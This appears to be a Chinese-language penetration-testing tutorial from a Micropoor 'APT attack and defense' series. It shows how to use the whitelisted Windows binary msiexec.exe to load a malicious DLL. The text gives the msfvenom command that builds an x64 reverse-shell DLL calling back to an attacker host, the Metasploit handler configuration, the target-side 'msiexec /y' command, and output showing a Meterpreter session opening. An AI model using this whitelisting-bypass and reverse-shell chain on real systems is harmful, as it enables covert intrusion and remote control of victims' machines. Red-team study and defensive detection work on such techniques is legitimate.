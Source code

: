 # 专注APT攻击与防御
https://micropoor.blogspot.com/

**注：**请多喝点热水或者凉白开，身体特别重要。

本季补充本地DLL加载
**Msiexec简介：**

Msiexec是Windows Installer的一部分。用于安装Windows Installer安装包（MSI）,一般在运行Microsoft Update安装更新或安装部分软件的时候出现，占用内存比较大。并且集成于Windows 2003，Windows 7等。

**说明：**Msiexec.exe所在路径已被系统添加PATH环境变量中，因此，Msiexec命令可识别。

**基于白名单Msiexec.exe配置payload：**
**注：x64 payload**

`msfvenom ‐p windows/x64/shell/reverse_tcp LHOST=192.168.1.4 LPORT=53 ‐ f dll > Micropoor_rev_x64_53.dll`

**配置攻击机msf：**
**注：x64 payload**
```bash
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 

Payload options (windows/x64/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process,none)

LHOST 192.168.1.4 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port

Exploit target: 

Id Name
‐‐ ‐‐‐‐
0 Wildcard Target 

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53 
```
![](media/62736d164fb64b1462810cfea7bd472c.jpg)

**靶机执行：**
`msiexec /y C:\Users\John\Desktop\Micropoor_rev_x64_dll.dll`
![](media/b8cbb9334f2281d8cd8f70052c2a02a9.jpg)
```bash
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53

[*] Sending stage (206403 bytes) to 192.168.1.5

[*] Meterpreter session 26 opened (192.168.1.4:53 ‐> 192.168.1.5:11543)
at 2019‐01‐20 09:45:51 ‐0500

meterpreter > getuid

Server username: John‐PC\John

meterpreter > getpid

Current pid: 7672

meterpreter > 
```
![](media/84fb0dd629aae878607221e385dfff34.jpg)
>   Micropoor
